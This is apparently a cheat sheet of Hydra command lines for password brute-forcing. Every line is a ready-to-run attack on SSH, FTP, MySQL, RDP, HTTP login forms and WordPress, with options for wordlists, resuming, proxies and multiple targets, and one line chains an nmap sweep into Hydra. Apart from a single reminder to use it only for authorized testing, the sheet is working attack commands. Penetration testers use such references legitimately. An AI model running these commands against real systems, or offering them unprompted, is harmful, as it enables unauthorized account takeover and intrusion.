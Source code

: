 ```bash
hydra -l admin -P passwords.txt -W 60 ssh://192.168.1.1   # Wait time between connections

# Output options
hydra -l admin -P passwords.txt -o results.txt ssh://192.168.1.1
hydra -l admin -P passwords.txt -b json -o results.json ssh://192.168.1.1

# Verbose and debugging
hydra -l admin -P passwords.txt -v ssh://192.168.1.1      # Verbose
hydra -l admin -P passwords.txt -V ssh://192.168.1.1      # Very verbose (show attempts)
hydra -l admin -P passwords.txt -d ssh://192.168.1.1      # Debug mode

# Resume attacks
hydra -l admin -P passwords.txt -R ssh://192.168.1.1      # Resume previous session

# Advanced options
hydra -l admin -P passwords.txt -e nsr ssh://192.168.1.1  # Try null, same as login, reversed
hydra -l admin -P passwords.txt -f ssh://192.168.1.1      # Exit on first found password
hydra -l admin -P passwords.txt -F ssh://192.168.1.1      # Exit when password found for any user

# Proxy support
hydra -l admin -P passwords.txt -m /proxy.txt ssh://192.168.1.1

# Multiple targets
hydra -l admin -P passwords.txt -M targets.txt ssh

# Custom user-agent (HTTP)
hydra -l admin -P passwords.txt -m "User-Agent: Custom" http-get://192.168.1.1/admin

# Practical examples
# Test SSH with common passwords
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.1

# Test web login form
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:S=Dashboard"

# Test multiple users on FTP
hydra -L users.txt -P passwords.txt -e nsr ftp://192.168.1.1

# Test MySQL with default credentials
hydra -L users.txt -P passwords.txt mysql://192.168.1.1

# Combination with nmap
nmap -p 22 --open 192.168.1.0/24 -oG - | awk '/22\/open/{print $2}' > ssh_hosts.txt
hydra -l root -P passwords.txt -M ssh_hosts.txt ssh

# Generate password list on-the-fly
crunch 4 6 0123456789 | hydra -l admin -P - ssh://192.168.1.1

# Test with username as password
hydra -L users.txt -e sr ftp://192.168.1.1

# Real-world scenarios
# WordPress brute force (be careful - use only for authorized testing!)
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -V

# RDP brute force (Windows)
hydra -l Administrator -P passwords.txt rdp://192.168.1.1 -t 4

# Find weak MySQL passwords
hydra -l root -P common-passwords.txt mysql://192.168.1.1 -f

```